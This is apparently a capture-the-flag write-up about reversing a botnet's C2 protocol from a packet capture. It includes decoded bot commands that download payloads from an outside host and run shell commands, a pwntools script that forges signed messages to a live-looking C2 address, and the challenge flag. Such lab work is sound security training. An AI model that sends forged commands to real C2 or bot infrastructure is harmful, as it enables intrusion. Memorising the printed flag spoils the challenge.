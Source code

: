 #### Challenge:

Hi, executive senior investigator! 

We have managed to get a rare catch - a traffic dump of issuing commands for the C2 server by its master! Glory to the network specialists of unnamed company. Try to find out how this communication works. [botnet_master.tar.xz](./botnet_master.tar.xz ":ignore")

Our network analytics report that one of currently online C2 servers can be found on IP `78.128.216.92` on `TCP/20220`.

Good luck!

---

#### Solution:

```bash
tshark -r ./master.pcap  -T fields -e data  -Y 'tcp'  > communication.txt
```

```python
#!/usr/bin/env python3
import base64

with open('communication.txt', mode='r') as f:
    for l in f.readlines():
        l = l.strip()
        if len(l) > 0:
            l = bytes.fromhex(l)
            header_len = l[:8].hex()
            l = l[8:]
            l = base64.b64decode(l)[::-1].decode("utf-8")
            try:
                l = bytes.fromhex(l).decode("utf-8")
                print(header_len, l[8:])
            except:
                l = bytes.fromhex(l[16:]).decode("utf-8")
                print(header_len, l)
                pass
```

- after decoding the communication we can see that `kl5puyj43brf7iso` can perform commands: `wait` `download` `info` `execute`
```console
 message length       client         command                                 sha384 of $client + ;; + $command
---------------------------------------------------------------------------------------------------------------------------------------------------------
0000000000000168 kl5puyj43brf7iso;;wait;;*;;5;;944f8b5a851f3ee8c4c8d0a30ca2f2b94cc6a3371b9ca09c4634d2da4884c44e5afb7ea7329ce724e38d07d7a4ebcfeb
0000000000000048 command accepted;;
00000000000001a0 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;active;;3799114f203fbb343e8003ab2bc7dc1890d2e748ed4d6f17d630cb0f70db1a89e5ed98609e41136b3d44836a52a12122
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
00000000000001f0 kl5puyj43brf7iso;;download;;*;;/tmp/update;;http://198.19.220.13:80/update2.bin;;d954e7c208079d348f7763176a0a65b6b43f01c49439b970a7e73ab2d59c0a000c8cff64981f1e918ba110cd1de7dd24
0000000000000048 command accepted;;
00000000000001d0 kl5puyj43brf7iso;;download;;*;;/tmp/key;;http://198.19.220.13:80/key;;17dfdf78c676a747ed0640f6b01b1693ccb1bf0ad915ac9b04e2fdace5e109402f67cd7499b028216a07c2c839d4f5fd
0000000000000048 command accepted;;
00000000000001a0 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;active;;3799114f203fbb343e8003ab2bc7dc1890d2e748ed4d6f17d630cb0f70db1a89e5ed98609e41136b3d44836a52a12122
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
00000000000001f8 kl5puyj43brf7iso;;download;;0hpxc5sdo9kgne64;;/tmp/e53;;http://198.19.220.13:80/e53;;6d855614bc506728ec6015b27d1f195307bf20874896f23c5b3b7fe22005d74eb82d4740209b1be17e2de0ff3d5055f1
0000000000000048 command accepted;;
0000000000000200 kl5puyj43brf7iso;;download;;0hpxc5sdo9kgne64;;/tmp/flag;;http://198.19.220.13:80/flag;;cfb8ad2096b87f07ef3154e198862bab81bce63cba14fd1ecd01ac83c849a42df494dd3b64793f4fad8cc02aa21ec61e
0000000000000048 command accepted;;
00000000000001a0 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;active;;3799114f203fbb343e8003ab2bc7dc1890d2e748ed4d6f17d630cb0f70db1a89e5ed98609e41136b3d44836a52a12122
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
0000000000000190 kl5puyj43brf7iso;;wait;;0hpxc5sdo9kgne64;;30;;b7894e9dfb8e92c804fd463d0f3fc1d674a448291a8f049a40a2bed111a0a32d5f257c255fcb645cbd553a6e7debf4c3
0000000000000048 command accepted;;
00000000000001a4 kl5puyj43brf7iso;;info;;203.0.113.16.20202;;clients;;c3c832bc83fa5d291559487932c5f57d35e838dfe9ec385b49dd45e0a28095738012082401d8b35e55411a25a1acfb96
0000000000000234 ffff0000ffff0000,0hpxc5sdo9kgne64,c6p0x84lamhowyk5,06fylhnt3wm4ikrx,irg6s7z8xvbnh0aj,dhps6t2u5egi1jrx,eimxd0lj4tby5gf7,ez0by4jqd3sikm8c,ds21bowz45903pgm,ws1mk4iae80b53jc,51awbq6mk32nejil,1nhxcp2saj4d685g
00000000000001f0 kl5puyj43brf7iso;;download;;*;;/tmp/update;;http://198.19.220.13:80/update2.bin;;d954e7c208079d348f7763176a0a65b6b43f01c49439b970a7e73ab2d59c0a000c8cff64981f1e918ba110cd1de7dd24
0000000000000048 command accepted;;
0000000000000180 kl5puyj43brf7iso;;execute;;*;;ls /etc;;b8d4cd29e64dbf3cec215e6444ef8d5eff5df0f75389fb564ecb13008a6738a681a1f3cfe1ef3699cd9a5809eb7fa9f6
0000000000000048 command accepted;;
```
- after replaying some of the `commands` we noticed that the server spits out `flag` for `kl5puyj43brf7iso;;info;;78.128.216.92.20220;;clients` sometimes
```python
#!/usr/bin/env python2
import base64
import hashlib
import struct
from pwn import *

def parse(msg):
    msg = msg[8:]
    msg = base64.b64decode(msg)[::-1]
    print(msg.decode('hex')[8:])


def bake(msg):
    digest = hashlib.sha384(msg).hexdigest()
    msg = ('\x00\x00\x00\x00\x00\x00\x00\x00' +msg + ";;" +digest ).encode('hex')
    msg = msg[::-1]
    msg = base64.b64encode(msg)
    return struct.pack(">Q", len(msg)) + msg


with remote('78.128.216.92', 20220) as r:
    r.sendline(bake('kl5puyj43brf7iso;;info;;78.128.216.92.20220;;clients'))
    msg = r.recv()
    parse(msg)
```

```bash
./solve.py | grep -e 'FLAG{.*}'
```

---

<details><summary>FLAG:</summary>

```
FLAG{uLHI-3Zq1-kOHx-FGR1}
```

</details>
<br/>
